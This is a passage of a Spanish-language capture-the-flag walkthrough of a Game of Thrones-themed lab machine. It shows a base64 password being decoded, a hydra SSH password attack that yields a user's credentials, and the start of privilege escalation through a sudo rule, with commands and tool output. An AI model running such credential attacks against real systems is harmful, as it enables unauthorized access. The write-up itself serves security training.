Dentro encontramos un archivo llamado `proteccion_del_reino`, que transferimos a la máquina atacante con el comando `get`.

Una vez en nuestra máquina, leemos el archivo:

```
Aria de ti depende que los caminantes blancos no consigan pasar el muro. 
Tienes que llevar a la reina Daenerys el mensaje, solo ella sabra interpretarlo. Se encuentra cifrado en un lenguaje antiguo y dificil de entender. 
Esta es mi contraseña, se encuentra cifrada en ese lenguaje y es -> aGlqb2RlbGFuaXN0ZXI=
```

La contraseña que contiene está codificada en `base64`, así que la decodificamos.

```bash
echo "aGlqb2RlbGFuaXN0ZXI=" | base64 -d
```

Info:
```
hijodelanister
```

Probamos si esta contraseña es válida para alguno de los tres usuarios a través del puerto `22` (`SSH`).


```bash
hydra -L users.txt -p hijodelanister ssh://172.17.0.2 -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-15 13:57:50
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jon   password: hijodelanister
```

Obtenemos credenciales válidas para el usuario `jon` : `hijodelanister`.

Accedemos por `SSH`.

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for jon on 77d3c9827bf1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jon may run the following commands on 77d3c9827bf1:
    (aria) NOPASSWD: /usr/bin/python3 /home/jon/.mensaje.py
```
